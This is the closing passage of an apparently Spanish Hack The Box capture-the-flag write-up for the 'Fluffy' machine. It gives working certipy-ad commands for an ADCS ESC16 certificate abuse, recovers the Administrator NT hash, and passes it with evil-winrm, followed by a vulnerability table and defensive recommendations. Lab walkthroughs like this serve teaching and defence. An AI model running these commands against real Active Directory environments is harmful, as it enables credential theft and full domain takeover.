certipy-ad req -u 'ca_svc' -hashes ca0f4f9e9eb8a092addf53bb03fc98c8 -dc-ip 10.129.72.203 -target 'dc01.fluffy.htb' -ca 'fluffy-DC01-CA' -template 'User'
```



Restauramos el UPN original de `ca_svc` para no dejar rastro ni romper su funcionamiento:

```bash
certipy-ad account update -username "p.agila@fluffy.htb" -p "prometheusx-303" -user ca_svc -upn 'ca_svc@fluffy.htb'
```



Autenticamos con el certificado obtenido para recuperar el hash NT real de Administrator:

```bash
certipy-ad auth -pfx administrator.pfx -domain 'fluffy.htb' -dc-ip 10.129.72.203
```



```
Certificate identities:
    SAN UPN: 'administrator'
Got hash for 'administrator@fluffy.htb': ...:8da83a3fa618b6e3a00e93f676c92a6e
```

Pass-the-hash final con Evil-WinRM:

```bash
evil-winrm -u 'Administrator' -H '8da83a3fa618b6e3a00e93f676c92a6e' -i dc01.fluffy.htb
```



## 5. Post-explotación y flags

```
cd C:\Users\Administrator\Desktop
dir
```



`root.txt` (34 bytes) confirmado en el escritorio de Administrator — compromiso total del controlador de dominio acreditado. Las capturas disponibles no incluyen la lectura explícita del contenido de `user.txt` ni `root.txt`, por lo que no se documentan aquí sus valores.

## 6. Lección aprendida

| Vulnerabilidad | Dónde | Impacto |
|----------------|-------|---------|
| Share SMB `IT` con permisos de escritura para un usuario de dominio estándar | Share `IT` | Permite subir un fichero malicioso que será procesado por el personal de IT |
| **CVE-2025-24071**: fuga de hash NTLM al extraer (no abrir) un `.zip`/`.rar` con `.library-ms` | Procesamiento del fichero subido por IT | Captura de credenciales de otro usuario de dominio sin interacción directa de la víctima |
| Contraseña débil, crackeable con diccionario (`rockyou.txt`) | Cuenta `p.agila` | Acceso autenticado al dominio tras crackear el hash NTLMv2 |
| Permisos de **OWNER/DACL WRITE** sobre un grupo de AD (`Service Accounts`) asignados a una cuenta de bajo privilegio | Grupo `Service Accounts` | Permite auto-añadirse al grupo y heredar sus permisos de escritura sobre cuentas de servicio |
| Escritura (`GenericWrite`-like) sobre cuentas de servicio, combinada con **Shadow Credentials** | `ca_svc`, `winrm_svc` | Extracción de hashes NT sin conocer ni resetear contraseñas |
| **ESC16**: extensión de seguridad deshabilitada en la CA (`fluffy-DC01-CA`) | ADCS | Un certificado con UPN arbitrario autentica como el principal con ese UPN — escalada directa a Administrator desde cualquier cuenta con permisos de solicitud de certificados |

## Recomendaciones defensivas

- Restringir los permisos de escritura en shares SMB al mínimo necesario; nunca exponer un share de IT con escritura a cuentas de usuario estándar.
- Aplicar el parche de **CVE-2025-24071** (CVE-2025-24054) y tratar con especial cautela cualquier `.zip`/`.rar` recibido de fuentes no confiables.
- Exigir contraseñas robustas y políticas de bloqueo/rotación en todas las cuentas de dominio, incluidas las de servicio.
- Revisar periódicamente las ACLs de los grupos de AD: ningún grupo con permisos elevados (gestión de cuentas de servicio, en este caso) debería tener `OWNER`/`WRITE` en manos de cuentas de bajo privilegio.
- Auditar la configuración de las CAs de ADCS: mantener habilitada la extensión de seguridad (`szOID_NTDS_CA_SECURITY_EXT`) en todas las plantillas y CAs para prevenir **ESC16**.
- Aplicar el principio de mínimo privilegio en plantillas de certificados: revisar qué cuentas pueden solicitar certificados con plantillas que habilitan autenticación (como `User`).

---

*Writeup por [Arabot](https://github.com/Caan31) · Hack The Box · 2026*
*¿Te ha ayudado? Dale una ⭐ al repositorio.*
